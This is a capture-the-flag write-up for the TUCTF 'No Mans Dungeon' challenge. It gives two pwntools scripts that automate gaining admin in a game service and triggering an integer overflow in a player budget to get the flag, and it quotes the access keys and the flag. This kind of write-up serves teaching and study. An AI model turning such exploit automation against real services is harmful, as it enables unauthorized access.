

## No Mans Dungeon (LuciferVM, 400pt)

> Experience the brand new game from Goodbye Games! If you can find it, that is
> 
> Hints I've given:
> In the flag, the curly braces are stored in octal, the rest is hex
> Create a Sequel to No Mans Dungeon
> Look for weird values in the sequel

I solved this challenge alongside my teammates [xero](https://github.com/xerof4ks) and [tomtoump](https://github.com/tomtoump) so credits go to them as well.

First piece of the challenge was to become admin.

**Strategy:**

* Login with empty username.
* Move randomly until we meet a monster.
* Attack and win the monster to level up (this was not always happening).
* Send a message to admin until we receive a response with **empty** username. Noticed that this almost always happens after sending >= 15 consecutive messages to the admin.
* Send the `Elevate` command.
* We are not admin and can execute the `magic` command.

```python
import random
from pwn import *

r = remote("nomansdungeon.tuctf.com", 6666)

def meet_monster():
    directions = [ "N", "S", "E", "W" ]
    while True:
        resp = r.recv(10000)
        print resp
        if "ENTER COMBAT" in resp:
            break
        r.sendline(random.choice(directions))

def elevate():
    for i in range(20):
        r.sendline("m")
        resp = r.recv(10000)
        print resp
        r.sendline("no other players")
        resp = r.recv(10000)
        print resp

    r.sendline("Elevate")

# login with empty username
print r.recv(10000)
r.sendline("")

# move randomly until we meet a monster
meet_monster()

# attack the monster
r.sendline("A")
print r.recv(10000)
r.sendline("y")
r.recv(10000)

# send message to admin
elevate()

r.interactive()
```

After becoming admin and executing the `magic` command (which was part of the admin menu only) we were getting a _segfault_ message and a new binary was generated. It is important to note that in order to access the new binary an **access key** was required. Following the LuciverVM challenges, [xero](https://github.com/xerof4ks) discovered that we could use the keygen I wrote for the [Grammar Lesson](https://github.com/rkmylo/ctf-write-ups/blob/master/2017-tuctf/lucifervm/grammar-lesson-150/README.md) challenge!

This was the second part of the challenge. The new binary allowed us to create and release games. Besides all other characterics, a game should be assigned a **topic** prior to its release and the point of this challenge was to assign it the **sequel** topic in order to create a sequel of the "No Man's Dungeon Game".

Initially we had only a few topics that we could assign to our games and obviously the sequel was not one of those. There was a menu that allowed us to buy more topics but the prices of the topics was rapidly increasing as we were buying more topics. After buying all available topics we were allowed to create our own topics, so we could create the sequel topic and then buy it. The thing is that we could not afford buying all these topics without bankrupting!

As game creator we were assigned a starting budget that we could increase by releasing games. After a lot of experimentation we discovered that the algorithm that decided whether we make money or not was really weird and we could not make any sense out of it.

The question is, how do we make money to buy the sequel topic without bankrupting?

Playing with the binary, we found a lot of integers overflowing and that looked pretty suspicious. How about buying even more topics without releasing any game, until our budget decreases so much that it overflows?

The following script automates the process:

```python
import random
import string
from pwn import *
from time import sleep

recovery_key = "itstimetoplay"
validation_key = "(66,66-66,66&66,66-66,66)"

r = remote("nomansdungeon.tuctf.com", 6666)

print r.sendlineafter("continue: ", "")
print r.sendlineafter("> ", recovery_key)
print r.sendlineafter("continue.\n", "pwn")
r.sendline(validation_key)
print r.sendlineafter("> ", "greunion")

def create_sequel_game():
    print r.sendlineafter("> ", "1") # Create New Game
    print r.sendlineafter("> ", "5") # Set Game Topic to Sequel
    print r.sendlineafter("> ", "48")
    print r.sendlineafter("> ", "1") # 1) No Man's Dungeon
    r.sendline("pwn")  # not important, just needed to continue
    print r.sendlineafter("> ", "6") # Work on the Game to receive flag :D

def create_sequel_topic():
    for i in range(44): # buy all existing topics
        print r.sendlineafter("> ", "3") # View Status and Topics
        print r.sendlineafter("(Y/N) ", "Y")
        print r.sendlineafter("> ", "1")
    # create the sequel topic
    print r.sendlineafter("> ", "3") # View Status and Topics
    print r.sendlineafter("(Y/N) ", "Y")
    print r.sendlineafter("(Y/N) ", "Y")
    print r.sendlineafter("> ", "Sequel")
    # buy the sequel topic
    print r.sendlineafter("> ", "3") # View Status and Topics
    print r.sendlineafter("(Y/N) ", "Y")
    print r.sendlineafter("> ", "1")
    # overflow our money
    for i in range(12):
        # create random topic
        print r.sendlineafter("> ", "3") # View Status and Topics
        print r.sendlineafter("(Y/N) ", "Y")
        print r.sendlineafter("(Y/N) ", "Y")
        t = ''.join(random.choice(string.ascii_lowercase) for _ in range(10))
        print r.sendlineafter("> ", t)
        # buy random topic
        print r.sendlineafter("> ", "3") # View Status and Topics
        print r.sendlineafter("(Y/N) ", "Y")
        print r.sendlineafter("> ", "1")

# create and buy topics until we overflow our budget!
create_sequel_topic()
# now create the sequel game to receive the flag
create_sequel_game()

r.interactive()

# Flag: TUCTF{G00DhaxSET5}

```

While going to work on a game which was assigned the sequel topic gave us the flag.


